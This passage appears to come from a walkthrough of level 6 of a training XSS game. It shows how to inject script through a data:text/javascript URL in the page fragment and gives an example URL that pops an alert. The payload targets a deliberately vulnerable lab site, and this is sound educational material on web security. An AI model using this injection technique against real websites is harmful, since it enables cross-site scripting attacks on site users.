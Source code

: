 We can inject this by using data:text/javascript
For example: 
```
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('XSS')
```

![](http://adr.iaan.be/xss/18.png)

